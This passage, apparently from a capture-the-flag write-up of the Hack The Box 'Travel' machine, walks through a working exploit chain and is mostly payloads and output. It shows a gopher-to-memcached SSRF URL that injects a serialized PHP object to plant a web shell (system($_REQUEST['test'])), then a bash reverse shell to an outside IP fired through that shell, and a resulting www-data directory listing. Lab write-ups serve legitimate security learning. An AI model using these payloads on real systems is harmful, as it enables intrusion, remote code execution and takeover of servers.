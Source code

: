 ```php
Give serialization payload
example: O:5:"Hello":0:{}   : O:14:"TemplateHelper":2:{s:4:"file";s:13:"test.php";s:4:"data";s:34:"<?php system($_REQUEST['test']);?>";}

Your gopher link is ready to do SSRF :                                                                   
gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%20111%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:13:%22test.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27test%27%5D%29%3B%3F%3E%22%3B%7D%0d%0a

After everything done, you can delete memcached item by using this payload:                             

gopher://127.0.0.1:11211/_%0d%0adelete%20SpyD3r%0d%0a

-----------Made-by-SpyD3r-----------
```

fixing and uploading final URL - [https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)

final url - the length of the contents is important! make sure it is correct \(111 in my case\)

HAVE TO decimal/hex encode 127.0.0.1~~~!!! 2130706433 or 0x7f000001 and add xct\_ 

```text
http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://0x7f000001:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20111%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:13:%22back_door.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27test%27%5D%29%3B%3F%3E%22%3B%7D%0d%0a
```

After that it took awhile to figure out where my `back_door.php` was located. I found a hint in the README.md file I had found in the git repository earlier: `* create logs directory in wp-content/themes/twentytwenty` after that the TemplateHelper class told me it was stored in the `/logs/` folder. 


> If you look closely at the output when I ran my PHP code above, it tried to put the resultant file in the **`/home/zweilos/htb/travel/logs/`** which did not exist, so it gave an error.


a shell can be obtained by using parameter on the backdoor:

```text
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/back_door.php?test=bash -c "bash -i >& /dev/tcp/10.10.15.53/8099 0>&1"
```

`xct_4e5612ba079c530a6b1f148c0b352241`

## Initial Foothold - `www-data`

```text
www-data@blog:/var/www/html$ ls -la
ls -la
total 232
drwxrwxrwx  5 www-data www-data  4096 Apr 13 13:28 .
drwxr-xr-x  1 root     root      4096 Mar 31 18:10 ..
-rw-r--r--  1 www-data www-data   461 Apr 13 13:19 .htaccess
-rw-r--r--  1 root     root      6423 Apr 13 14:21 customfeed.xml
-rw-r--r--  1 www-data www-data   405 Feb  6  2020 index.php
-rw-r--r--  1 www-data www-data 19915 Feb 12  2020 license.txt
-rw-r--r--  1 www-data www-data  7278 Jan 10  2020 readme.html
-rw-r--r--  1 www-data www-data  6912 Feb  6  2020 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Mar 31 20:03 wp-admin
-rw-r--r--  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rw-r--r--  1 www-data www-data  2275 Feb  6  2020 wp-comments-post.php
-rw-r--r--  1 www-data www-data  2913 Feb  6  2020 wp-config-sample.php
-rw-rw-rw-  1 www-data www-data  3186 Apr 13 14:10 wp-config.php
```